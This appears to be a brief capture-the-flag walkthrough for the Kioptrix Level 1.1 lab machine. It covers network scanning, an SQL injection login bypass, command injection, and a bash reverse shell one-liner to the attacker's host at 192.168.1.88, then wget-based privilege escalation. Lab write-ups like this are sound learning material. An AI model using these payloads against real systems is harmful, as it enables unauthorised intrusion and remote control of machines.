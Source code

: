 # Kioptrix: Level 1.1 (#2)

https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

We netdiscover to find http://192.168.1.93/ and then we run `nmap -sV 192.168.1.93` and `nikto -h 192.168.1.93`. The webpage shows a login and we see that nmap connects to MySQL so it could be an SQL injection. We tried the usual candidates and find that `%' or 1=1 #` worked. We logged in and see a page where you can execute commands (this is very similar to the dvwa one). By doing command injection `;ls` we can see the files in the directory. Now this is a simple case of executing `;bash -i >& /dev/tcp/192.168.1.88/1234 0>&1` and gaining shell access. Finding the name of the machine and either run wget to download the exploit and excute to escalate privleges
